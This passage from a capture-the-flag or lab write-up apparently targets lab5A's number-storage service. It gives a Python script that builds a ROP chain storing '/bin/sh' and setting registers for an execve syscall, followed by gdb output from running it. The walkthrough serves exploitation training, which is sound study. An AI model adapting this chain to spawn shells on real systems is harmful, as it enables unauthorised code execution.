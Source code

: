 Nice, our string pointer for "/bin/sh" is at `0xbffff5a8`. After playing with `ropgadget`, I found a few interesting gadgets to build our ROP chain.

```python
def store(val, idx):
   data = "store\n"
   data += str(int(val)) + "\n"
   data += str(idx) + "\n"

   return data


# Storing "/bin/sh"
payload = store(0x6e69622f, 40)
payload += store(0x0068732f, 41)

# Clear ECX
payload += store(0x0805befc, 1) # mov ecx, 0xffffffff ; cmovb eax, ecx ; ret
payload += store(0x08049df5, 2) # pop esi ; ret
payload += store(0x080dbbc4, 4) # inc ecx ; ret
payload += store(0x08049df5, 5) # pop esi ; ret

# Clear EDX
payload += store(0x08054cc5, 7) # mov edx, 0xffffffff ; ret
payload += store(0x08049df5, 8) # pop esi ; ret
payload += store(0x0805db17, 10) # inc edx ; ret
payload += store(0x08049df5, 11) # pop esi ; ret

# Set EAX to 0x0b
payload += store(0x08054c30, 13) # xor eax, eax ; ret
payload += store(0x08096be2, 14) # add eax, 0xb ; pop edi ; ret

# Set EBX to ptr "/bin/sh"
payload += store(0x08049df4, 16) # pop ebx ; pop esi ; ret
payload += store(0xbffff5a8, 17) # ptr to "/bin/sh"

payload += store(0x08048eaa, 19) # 0x08048eaa : int 0x80

# Overwrite store_number()
payload += store(0x08049bb7, -11) # add esp, 0x2c ; ret

print(payload)
```

If we try to run this code in *gdb*, we should be able to execute "/bin/sh".

```nasm
gdb-peda$ r < <(python /tmp/ropme.py)
Starting program: /levels/lab05/lab5A < <(python /tmp/ropme.py)
----------------------------------------------------
  Welcome to doom's crappy number storage service!
          Version 2.0 - With more security!
----------------------------------------------------
 Commands:
    store - store a number into the data storage
    read  - read a number from the data storage
    quit  - exit the program
----------------------------------------------------
   doom has reserved some storage for himself :>
----------------------------------------------------

Input command:  Number:  Index:  Completed store command successfully
Input command:  Number:  Index:  Completed store command successfully
Input command:  Number:  Index:  Completed store command successfully
Input command:  Number:  Index:  Completed store command successfully
```